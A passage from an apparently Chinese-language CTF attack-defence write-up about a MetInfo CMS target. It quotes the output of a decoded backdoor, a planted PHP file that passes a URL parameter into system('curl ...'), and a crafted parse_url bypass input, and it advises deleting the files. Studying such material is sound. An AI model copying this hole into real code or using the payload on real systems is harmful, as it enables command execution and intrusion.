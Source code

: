 ```php
}

echo gzuncompress(x(base64_decode($data)));


/* 7. 最后得到结果*/
config.inc.php	config_safe.php   install.lock	   tablepre.php
config_db.php	database.inc.php  metinfo.inc.php

```


## 防护方法
删除后门文件即可


# 4. SSRF漏洞
通过D盾直接发现的
`/include/curl.php`
```php
if(isset($_GET['address'])){
    $address = $_GET['address'];
    if(filter_var($address,FILTER_VALIDATE_URL)){
        $filter_url = parse_url($address);
        if(preg_match('/127.0.0.1/',$filter_url['host'])){
            system('curl -v -s '.$filter_url['host']);
        }
    }
}
```
[SSRF](https://www.anquanke.com/post/id/101058)
需要Bypass SSRF

后分析发现SSRF漏洞的确存在，但无法获取利用flag，原因是因为获取flag需要带参数，但是参数会被parse_url函数进行分割
例如传入参数为`?address=0://10.0.1.2:80?token=WNHOMGGL;127.0.0.1:80/`
分割后为
`Array ( [scheme] => 0 [host] => 10.0.1.2 [port] => 80 [query] => token=WNHOMGGL;127.0.0.1:80/ ) string(19) "curl -v -s 10.0.1.2" `
导致最后执行的语句为
`string(19) "curl -v -s 10.0.1.2" `

但是在phpstudy中的7.1以下版本都能试下，靶机中php版本位5.5.9却不能成功，其中的可能与一些默认配置相关，还需要在探究。



## 防护方法
删除文件即可


# 5. CMS漏洞-后台getshell，任意文件写入
ivear metinfo CMS  
